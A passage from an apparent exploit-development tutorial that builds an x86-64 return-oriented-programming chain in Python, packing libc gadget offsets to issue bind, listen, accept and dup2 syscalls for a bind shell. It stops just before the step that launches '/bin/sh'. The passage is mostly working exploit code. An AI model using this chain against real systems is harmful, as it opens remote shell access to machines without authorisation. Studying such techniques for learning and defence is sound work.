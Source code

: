 Now the bind system call to use the newly setup socket structure

	#Setup bind syscall
	p += struct.pack('<Q', libcadr+0x1fca7)# mov qword ptr [rdi], rdx ; ret
	p += struct.pack('<Q', libcadr+0x24885)# pop rsi ; ret
	p += struct.pack('<Q', libcadr+0x3be080) # @ .data
	p += struct.pack('<Q',libcadr+0x1960d7) # xchg eax, edi ; ret
	p += struct.pack('<Q',libcadr+0x000bcdf0) # pop rdx; ret
	p += struct.pack('<Q',0x10)               # rdx = 0x10
	p+= struct.pack('<Q',libcadr+0x000487a8)  #pop rax, ret
	p+= struct.pack('<Q',0x31)                # rax = 0x31
	p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret Bind(fd,.data,16)

Once the bind is complete the system call will return a file descriptor to listen on.

So now we create a listen.

	p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
	p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
	p+= struct.pack('<Q',0x32)              # rax = 0x32
	p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret Listen(fd)

Now we do the accept call.

	p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
	p+= struct.pack('<Q',0x2b)              # rax = 0x2b
	p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret

Now we just have to dup stdin and stdout so that we can communicate.

I took a guess here and decided I needed like three dup2 calls to make this work
and since the eax had the file descriptor I could just step backwards and exchange
with esi to cheat the lack of rop gadgets I had.

	p += struct.pack('<Q',libcadr+0x00000000001960d7) # #xchg eax, edi ; ret
	p+= struct.pack('<Q',libcadr+0x00024885)#pop rsi
	p+= struct.pack('<Q',0x2)               # rsi = 0x2
	p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
	p+= struct.pack('<Q',0x21)              # rax = 0x21
	p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret

	p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
	p+= struct.pack('<Q',libcadr+0x000000000003851f)# : sub eax, 1 ; ret
	p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
	p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
	p+= struct.pack('<Q',0x21)              # rax = 0x21
	p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret

	p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
	p+= struct.pack('<Q',libcadr+0x000000000003851f)# : sub eax, 1 ; ret
	p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
	p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
	p+= struct.pack('<Q',0x21)
	p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret

Now we just needed to get '/bin/sh' to run once we connect to the target system.
